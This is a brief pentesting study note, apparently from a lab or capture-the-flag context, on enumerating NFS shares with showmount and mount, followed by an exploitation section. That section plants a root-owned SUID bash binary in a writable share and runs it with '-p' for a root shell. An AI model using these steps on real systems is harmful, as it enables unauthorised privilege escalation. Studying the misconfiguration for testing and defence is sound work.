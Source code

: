 # NFS

## Network File System

Allows a system to share directories and files with others over a network. Users and programs can access files on a remote system as if they were local. This is accomplished by mounting all, or a portion of a file system on a server. The mounted portion can be accessed.

### Enumeration

`nfs-common`

[nfs-common Information](https://packages.ubuntu.com/xenial/nfs-common)

```bash
sudo apt install nfs-common
```

* Includes programs such as:

```bash
lockd
statd
showmount
nfsstat
gssd
idmapd
mount.nfs
```

__Mounting NFS Shares__

Attacker system needs a directory where all the content shared by the host server in the export folder ca be accessed. Folder can be created anywhere on the system.

```bash
sudo mount -t nfs [IP]:[share] /tmp/mount/ -nolock
```

| Tag | Function |
| --- | --- |
| `sudo` | Run as root |
| `mount` | Execute the mount command |
| `-t nfs` | Type of device to mount, then specify that it's NFS |
| `[IP]:[share}` | IP address of the NFS server, and the name of the share we wish to mount |
| `-nolock` | Specifies not to use NLM locking |

```bash
showmount -e [IP]
```

```bash
mkdir /tmp/mount 
```

```bash
sudo mount -t nfs 10.10.14.219:/home /tmp/mount/ -nolock
```

# NFS Exploitation

[Ubuntu Server bash executable](https://github.com/TheRealPoloMints/Blog/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash)

Place in mount directory on attack machine
Must be owned by root

```bash
sudo chown root bash
```

Set SUID bit

```bash
sudo chmod +s bash
```

```bash
./bash -p
```